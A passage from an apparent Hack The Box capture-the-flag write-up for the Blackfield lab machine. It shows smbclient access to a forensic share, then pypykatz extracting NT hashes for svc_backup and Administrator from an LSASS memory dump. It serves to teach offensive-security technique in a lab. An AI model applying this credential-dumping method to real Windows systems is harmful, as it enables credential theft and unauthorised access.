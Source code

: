 ## Getting the NTLM hash for svc_backup

After connecting to the SMB share we see a bunch of directories:

```
snowscan@kali:~/htb/blackfield_demo$ smbclient -U audit2020%Password123 //10.10.10.192/forensic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020
```

Looking around the various directories we can see that they contain various forensic evidence like command output and memory captures. The one thing that stands out is we have a memory capture of the LSASS process in the `lsass.zip` file:

```
smb: \> ls memory_analysis\
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
```

LSASS is the Local Security Authority Subsystem Service in Windows that handles authentication and security policies. Basically, it holds all sorts of authentication information in its memory space.

After downloading and extracting the file to our local Kali VM we'll use the pypykatz tool to extract the credentials from the memory dump. Pypykatz is a Python implementation of Mimikatz.

```
snowscan@kali:~/htb/blackfield_demo$ unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP
  
snowscan@kali:~/htb/blackfield_demo$ pypykatz lsa minidump lsass.DMP |more
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

